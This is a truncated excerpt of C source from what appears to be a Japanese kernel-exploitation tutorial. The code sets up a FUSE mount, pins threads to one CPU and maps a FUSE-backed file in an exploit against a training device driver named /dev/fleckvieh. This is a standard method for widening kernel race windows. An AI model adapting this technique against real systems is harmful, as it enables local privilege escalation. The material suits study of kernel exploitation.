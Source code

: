 ```c
          if (fds[i] == -1) fatal("/dev/ptmx");
        }
        return size;
    }
  }

  return -ENOENT;
}

...

int setup_done = 0;

void *fuse_thread(void *_arg) {
  struct fuse_args args = FUSE_ARGS_INIT(0, NULL);
  struct fuse_chan *chan;
  struct fuse *fuse;

  if (mkdir("/tmp/test", 0777))
    fatal("mkdir(\"/tmp/test\")");

  if (!(chan = fuse_mount("/tmp/test", &args)))
    fatal("fuse_mount");

  if (!(fuse = fuse_new(chan, &args, &fops, sizeof(fops), NULL))) {
    fuse_unmount("/tmp/test", chan);
    fatal("fuse_new");
  }

  /* メインスレッドを同じCPUで動かす */
  if (sched_setaffinity(0, sizeof(cpu_set_t), &pwn_cpu))
    fatal("sched_setaffinity");

  fuse_set_signal_handlers(fuse_get_session(fuse));
  setup_done = 1;
  fuse_loop_mt(fuse);

  fuse_unmount("/tmp/test", chan);
  return NULL;
}

int main(int argc, char **argv) {
  /* メインスレッドとFUSEスレッドが必ず同じCPUで動くよう設定する */
  CPU_ZERO(&pwn_cpu);
  CPU_SET(0, &pwn_cpu);
  if (sched_setaffinity(0, sizeof(cpu_set_t), &pwn_cpu))
    fatal("sched_setaffinity");

  pthread_t th;
  pthread_create(&th, NULL, fuse_thread, NULL);
  while (!setup_done);

  /*
   * Exploit本体
   */
  fd = open("/dev/fleckvieh", O_RDWR);
  if (fd == -1) fatal("/dev/fleckvieh");

  /* FUSEのファイルをメモリにマップ */
  int pwn_fd = open("/tmp/test/pwn", O_RDWR);
  if (pwn_fd == -1) fatal("/tmp/test/pwn");
  void *page;
  page = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE,
```

[^1]: ユーザー空間で仮想的にキャラクタデバイスを登録するCUSEという仕組みもあります。
